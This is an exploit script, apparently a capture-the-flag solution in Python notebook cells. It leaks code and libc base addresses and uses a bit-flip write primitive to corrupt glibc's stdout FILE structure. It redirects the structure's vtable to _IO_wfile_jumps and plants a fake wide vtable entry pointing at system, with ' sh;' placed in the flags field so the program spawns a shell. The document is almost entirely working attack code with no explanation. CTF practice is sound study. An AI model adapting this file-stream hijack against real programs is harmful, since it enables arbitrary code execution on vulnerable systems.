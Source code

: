 ```python
codebase = uu64(s[0x825 : 0x825 + 8]) - 0x4020
li("codebase", codebase)

libcbase = uu64(s[5 : 5 + 8]) - 0x157F10
li("libc base", libcbase)

stdin_addr = libcbase + 0x1EC980
li("stdin", stdin_addr)

flips = codebase + 0x4010
li("flips", flips)

offset = flips - stdin_addr
print("offset", hex(offset))

# %%
sla("a: ", str(offset))
sla("b: ", str(7))


# %%
def binary_diff_bits(a, b):
    res = []
    bin_a = bin(a)[2:][::-1]
    bin_b = bin(b)[2:][::-1]

    max_len = max(len(bin_a), len(bin_b))
    bin_a = bin_a.zfill(max_len)
    bin_b = bin_b.zfill(max_len)

    for i in range(max_len):
        if bin_a[i] != bin_b[i]:
            res.append(i)
    return res

# %%
new_vtable = libcbase + 0x1ED800
li("new vtable", new_vtable)

stdout = libcbase + libc.sym._IO_2_1_stdout_
ori_vtable = libcbase + 0x1E94A0
wfile_jumps = libcbase + 0x1E8F60
li("wfile", wfile_jumps)


# %%
def arb_write(addr, val, ori):
    res = binary_diff_bits(val, ori)
    print(res)

    base_offset = addr - stdin_addr
    for i in res:
        sla("a: ", str(base_offset + i // 8))
        sla("b: ", str(i % 8))


# %%
li("flags",uu64(b"  sh;"))
arb_write(stdout + 0xA0, new_vtable, libcbase + 0x1EC880)
arb_write(new_vtable + 0xE0, new_vtable + 0x100, 0)
arb_write(new_vtable + 0x168, libcbase+libc.sym.system, 0)
arb_write(stdout + 0xD8, wfile_jumps, ori_vtable)
arb_write(stdout,0x3b93de18a7,0)
```